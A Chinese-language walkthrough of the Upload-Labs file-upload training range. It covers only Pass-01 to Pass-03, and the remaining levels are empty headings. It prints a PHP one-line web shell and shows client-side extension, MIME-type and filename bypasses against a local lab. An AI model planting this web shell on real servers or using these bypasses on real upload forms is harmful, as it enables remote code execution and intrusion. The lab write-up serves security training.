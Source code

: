 # Upload-Labs靶场全解

此靶场专为文件上传漏洞而生，环境配置就不多说了，和dvwa都一样轻松配置。

靶场源码：https://github.com/c0ny1/upload-labs

实验工具包括：BP、蚁剑、010



## Pass-01

 一句话木马文件`shell.php`

```
<?php @eval($_POST['cmd'])?>
```

上传的时候做了文件类型的限制，所以直接F12修改代码就可以了。

```php
var allow_ext = ".jpg|.png|.gif|.php";
```

上传成功了，然后点击查看元素，可以发现文件上传的位置

```
../upload/shell.php
```



直接蚁剑连接

```
URL地址: http://127.0.0.1/upload/shell.php
连接密码: cmd
```



## Pass-02



抓包上传，然后显示文件类型不正确，那就说明对数据包的MIME进行检查，那就直接修改一波。



```
Content-Type: image/jpeg
```



OK，上传成功，后续蚁剑同上操作。



## Pass-03

看源码会发现，它对文件的后缀为`.asp`、`.aspx`、`.php`、`.jsp`做出了限制

```
Content-Disposition: form-data; name="upload_file"; filename="shell.php5"
```



直接抓包更改`filename="shell.jpg"`

上传成功，但是名字发生了变化，可以通过元素的查看发现更改后的名字

```
../upload/202501121448055506.jpg
```



直接蚁剑连接

```
URL地址:  
连接密码: cmd
```





## Pass-04



## Pass-05

## Pass-06

## Pass-07

## Pass-08

## Pass-09

## Pass-10

## Pass-11

## Pass-12

## Pass-13

## Pass-14

## Pass-15

## Pass-16

## Pass-17

## Pass-18

## Pass-19

## Pass-20